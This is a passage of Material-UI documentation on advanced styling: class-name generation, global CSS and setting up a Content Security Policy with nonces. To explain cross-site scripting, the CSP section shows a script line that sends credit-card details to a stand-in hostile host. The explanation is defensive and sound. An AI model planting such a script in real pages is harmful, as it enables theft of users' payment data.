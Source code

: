 styles into the `<head>` element.\n\nRefer to [this example project](https://github.com/Foso/material-ui/blob/master/examples/nextjs) for an up-to-date usage example.\n\n## Class names\n\nThe class names are generated by [the class name generator](/styles/api/#creategenerateclassname-options-class-name-generator).\n\n### Default\n\nBy default, the class names generated by `@material-ui/core/styles` are **non-deterministic**; you can't rely on them to stay the same. Let's take the following style as an example:\n\n```js\nconst useStyles = makeStyles({\n  root: {\n    opacity: 1,\n  },\n});\n```\n\nThis will generate a class name such as `makeStyles-root-123`.\n\nYou have to use the `classes` prop of a component to override the styles.\nThe non-deterministic nature of the class names enables style isolation.\n\n- In **development**, the class name is: `.makeStyles-root-123`, following this logic:\n\n```js\nconst sheetName = 'makeStyles';\nconst ruleName = 'root';\nconst identifier = 123;\n\nconst className = `${sheetName}-${ruleName}-${identifier}`;\n```\n\n- In **production**, the class name is: `.jss123`, following this logic:\n\n```js\nconst productionPrefix = 'jss';\nconst identifier = 123;\n\nconst className = `${productionPrefix}-${identifier}`;\n```\n\n### With `@material-ui/core`\n\nThe generated class names of the `@material-ui/core` components behave differently.\nWhen the following conditions are met, the class names are **deterministic**:\n\n- Only one theme provider is used (**No theme nesting**)\n- The style sheet has a name that starts with `Mui` (all Material-UI components).\n- The `disableGlobal` option of the [class name generator](/styles/api/#creategenerateclassname-options-class-name-generator) is `false` (the default).\n\nThese conditions are met with the most common use cases of `@material-ui/core`.\nFor instance, this style sheet:\n\n```jsx\nconst useStyles = makeStyles({\n  root: { /* … */ },\n  label: { /* … */ },\n  outlined: {\n    /* … */\n    '&$disabled': { /* … */ },\n  },\n  outlinedPrimary: {\n    /* … */\n    '&:hover': { /* … */ },\n  },\n  disabled: {},\n}, { name: 'MuiButton' });\n```\n\ngenerates the following class names that you can override:\n\n```css\n.MuiButton-root { /* … */ }\n.MuiButton-label { /* … */ }\n.MuiButton-outlined { /* … */ }\n.MuiButton-outlined.Mui-disabled { /* … */ }\n.MuiButton-outlinedPrimary: { /* … */ }\n.MuiButton-outlinedPrimary:hover { /* … */ }\n```\n\n*This is a simplification of the `@material-ui/core/Button` component's style sheet.*\n\nCustomization of the TextField can be cumbersome with the [`classes` API](#overriding-styles-classes-prop), where you have to define the the classes prop.\nIt's easier to use the default values, as described above. For example:\n\n```jsx\nimport styled from 'styled-components';\nimport { TextField } from '@material-ui/core';\n\nconst StyledTextField = styled(TextField)`\n  label.focused {\n    color: green; 💚\n  }\n  .MuiOutlinedInput-root {\n    fieldset {\n      border-color: red; 💔\n    }\n    &:hover fieldset {\n      border-color: yellow; 💛\n    }\n    &.Mui-focused fieldset {\n      border-color: green; 💚\n    }\n  }\n`;\n```\n\n{{\"demo\": \"pages/styles/advanced/GlobalClassName.js\"}}\n\n## Global CSS\n\n### `jss-plugin-global`\n\nThe [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset.\nYou can use it to define global class names.\n\n{{\"demo\": \"pages/styles/advanced/GlobalCss.js\"}}\n\n### Hybrid\n\nYou can also combine JSS generated class names with global ones.\n\n{{\"demo\": \"pages/styles/advanced/HybridGlobalCss.js\"}}\n\n## CSS prefixes\n\nJSS uses feature detection to apply the correct prefixes.\n[Don't be surprised](https://github.com/Foso/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.\n\n## Content Security Policy (CSP)\n\n### What is CSP and why is it useful?\n\nBasically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:\n\n```html\n<script>\n  sendCreditCardDetails('https://hostile.example');\n</script>\n```\n\nThis vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.\n\nYou can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).\n\n### How does one implement CSP?\n\nIn order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.\n\nA CSP nonce is a Base 64 encoded string. You can generate one like this:\n\n```js\nimport uuidv4 from 'uuid/v4';\n\nconst nonce = new Buffer(uuidv4()).toString('base64');\n```\n\nIt is very important that you use UUID version 4, as it generates an **unpredictable** string.\nYou then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:\n\n```js\nheader('Content-Security-Policy')\n  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);\n```\n\nIf you are using Server-Side Rendering (SSR), you should pass the nonce in the `<style>` tag on the